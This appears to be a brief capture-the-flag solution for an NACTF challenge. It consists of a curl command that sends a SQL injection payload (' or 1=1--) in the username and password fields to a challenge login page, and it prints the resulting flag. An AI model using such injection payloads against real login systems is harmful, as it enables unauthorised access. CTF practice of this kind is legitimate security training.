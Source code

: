 '''
curl -s  https://login.challenges.nactf.com/auth.php --data "username=' or 1=1--&password=' or 1=1--" | cut -d " " -f 2

'''

# nactf{sQllllllll_1m5qpr8x}
